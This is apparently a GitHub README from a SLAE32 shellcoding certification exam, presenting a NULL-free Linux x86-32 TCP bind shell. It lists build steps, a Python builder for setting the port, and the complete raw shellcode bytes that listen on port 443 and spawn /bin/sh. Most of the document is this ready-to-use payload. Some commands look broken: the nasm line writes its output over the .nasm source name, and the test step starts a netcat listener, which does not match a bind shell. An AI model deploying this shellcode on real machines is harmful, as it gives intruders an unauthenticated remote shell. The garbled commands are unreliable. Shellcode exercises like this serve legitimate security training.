 # TCP Bindshell (Linux x86-32) - SLAE32 Certification Exam

* Target : `Linux x86-32`
* NULL Free
* Tested on : Ubuntu 18.04.04
* TCP Port Editable (Python Script)
* Manual stack manipulation (no push/pop) but size heavy.

Blog post about creation of that Shellcode : https://phrozen.io/docs/linux/slae32/ex1-bindshell/

## Build Shellcode from NASM file

`nasm -f elf32 -o bindshell.nasm`

`ld bindshell.o -o bindshell`

### Test program

`nc -lvp 443`

Then

`./bindshell`

## Build Shellcode from Python Builder`

`python3 shellcode_builder.py <port_number>`

## RAW Shellcode (TCP Port = 443)

````
\x89\xe5\x31\xc0\x31\xdb\x31\xd2\x31\xf6\x31\xc9\xb1\x1e\x50\xe2
\xfd\x89\xec\xb3\x01\xc6\x44\x24\xf8\x01\xc6\x44\x24\xf4\x02\x83
\xec\x0c\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x80\xc3\x0d\xc6
\x44\x24\xfc\x04\x83\xec\x04\x89\x64\x24\xfc\xc6\x44\x24\xf8\x02
\xc6\x44\x24\xf4\x01\x89\x74\x24\xf0\x83\xec\x10\x89\xe1\xb0\x66
\xcd\x80\x31\xc0\x80\xeb\x0c\xb0\x01\xb4\xbb\x66\x89\x44\x24\xf2
\xc6\x44\x24\xf0\x02\x31\xc0\xb0\x10\x29\xc4\xc6\x44\x24\xfc\x10
\x89\x64\x24\xf8\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\x31\xc0\xb0
\x66\xcd\x80\x80\xc3\x02\x89\x74\x24\xf8\x83\xec\x08\x89\xe1\xb0
\x66\xcd\x80\xfe\xc3\x89\x74\x24\xf4\x83\xec\x0c\x89\xe1\xb0\x66
\xcd\x80\x89\xc3\x31\xc9\x31\xc0\xb0\x3f\xcd\x80\xfe\xc1\x80\xf9
\x02\x7e\xf3\x31\xc0\x31\xdb\x31\xc9\xc7\x44\x24\xf8\x2f\x2f\x73
\x68\xc7\x44\x24\xf4\x2f\x62\x69\x6e\x83\xec\x0c\x89\xe3\x83\xec
\x04\x89\xe2\x89\x5c\x24\xfc\x83\xec\x04\x89\xe1\xb0\x0b\xcd\x80
````
